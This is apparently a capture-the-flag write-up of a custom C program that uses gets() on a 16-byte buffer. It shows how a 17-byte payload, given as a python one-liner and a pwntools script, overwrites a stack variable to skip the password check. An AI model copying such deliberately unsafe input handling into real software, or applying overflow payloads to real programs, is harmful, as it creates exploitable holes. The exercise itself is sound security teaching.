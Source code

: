 ```yaml
---
description: 08/15/2023
---
```


# 1️⃣ 1️⃣ 01

This is an entirely custom project that I am extremely proud of. It consists of us overwriting variables on the stack in order to bypass compares so that you can grab the flag without even having the right password.

> Can you find the password?
>
> How can you get the flag without using the correct password?

## Static Source Code Analysis

```c
#include <stdio.h>
#include <string.h>

const char* hacked()
{
    const char* local_flag = {"XYC{H0wD1d1G3tH3r3?!}"};

    printf("This is a secret function.\n");
    printf("Access level 0 is required. All attempts to access will be logged.\n");
    printf("Oh yeah, here's your flag: %s\n", local_flag);

    return local_flag;

}

char * flag = "XYC{H0wD1d1G3tH3r3?!}";

int main()
{

    char code[16];
    int access = 0;

    printf("Please enter the secret code: \n");
    gets(code);
    fflush(stdout);

    if(strcmp(code, "1337") == 0)
    {
        flag = hacked();

        access = 1;
    }

    else
    {
        printf("Access denied, silent alarm has been triggered!\n");
    }

    if(access)
    {
        printf("Authentication successful as root (access level=%d) \n", access);
        printf("You are root, granting access... \nAccess granted, welcome root.\n");
        printf("Wow, you realized we could overflow the buffer and you could still get the flag? Nice.\nHere's your flag: %s", flag);
    }

    else
    {
        printf("Authentication failed as root (access level=%d)\n", access);
    }

    return 0;

}
```

Compile:

```
gcc 01.c -o 01 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that we have a `hacked()` function which contains our flag. Notice the return of `local_flag`.

We can also see that our flag is being set as a global so it can be accessed through main and passed throughout the program.&#x20;

Also, be conscious of the dangerous `gets()` call again, as we remember why this is dangerous from our last example in [00](00.md).&#x20;

Our `strcmp()` is being compared to our input to our buffer (`code`) which is of **16-bytes** and is looking for the correct input of "**1337**" so that we can access our secret function.

If we can input the password correctly, we will be granted access to the secret function.&#x20;

If not, we will trigger the alarm.

## Exploitation

### Manual Method

python2:

```
python2 -c 'print "A" * 17' > payload
```

Exploit:

```
./01 < payload
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Establish the connection to the program
p = process('./01')  # Change this to the actual path of the '01' program

context.log_level = 'debug'

# Wait for the ':' prompt
p.recvuntil(':')

# Send 17 bytes of 'A' characters
payload = b'A' * 17
p.sendline(payload)

# Print the program's output
print(p.recvall().decode())

# Close the connection
p.close()
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## `gdb`

We can see our payload of A's overwriting our variables on the stack so we can bypass the comparisons/checks and get straight into the right version of our `hacked()` function that we want.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We never inputed the correct password of "1337":

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
